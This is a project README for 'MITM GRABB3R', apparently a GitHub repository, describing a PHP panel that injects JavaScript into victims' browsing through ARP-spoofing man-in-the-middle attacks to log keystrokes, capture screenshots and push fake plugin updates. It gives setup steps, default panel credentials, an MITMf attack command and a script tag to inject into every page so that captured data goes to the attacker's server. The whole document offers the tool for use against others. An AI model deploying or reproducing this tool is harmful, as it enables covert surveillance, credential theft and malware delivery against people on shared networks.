 
**MITM GRABB3R** is a PHP (MySQL) script that uses Javascript code to do various XSS "attacks" after you inject it via mitm attack.

INFO
===

This script can capture keystrokes of user input on websites, capture screenshots of pages and run fake browser plugin update.

Each clients history and captures can be viewed on a timeline.

!["DEMO"](https://raw.githubusercontent.com/ivangr0zni/mitm-grabb3r/master/demo.png)

HOW TO SET SCRIPT
===

Create and import database.sql in MySQL 

Upload php script from www to folder on your http server.

Edit

	/includes/settings.ini.php
	/includes/config.ini.php
	
Default web login is:

	Username:admin
	Password:1234
	
HOW TO: MITMf
===

Replace inject.py in plugins folder ( MITMf 0.9.8 ) with inject.py that contains small changes.


Example cmd:

	python mitmf.py -i eth0 --spoof --arp --gateway 192.168.1.1 --inject --grabber-url http://192.168.1.5/mitm/inject.php


Use other MITM software?
===

This script was tested on and used with MITMf but should be able to use it without any issues with other software.

If you make plugin for other software contact me and i will add plugin for it.

You need to inject code bellow into every page and then wait for data in panel.

	<script type="text/javascript" src="http://IP_OR_DOMAIN_AND_SCRIPT_PATH/inject.php?ip=IP_ADDRESS_OF_VICTIM"></script>

	
	
Contact
===

Twitter: @ivangr0zni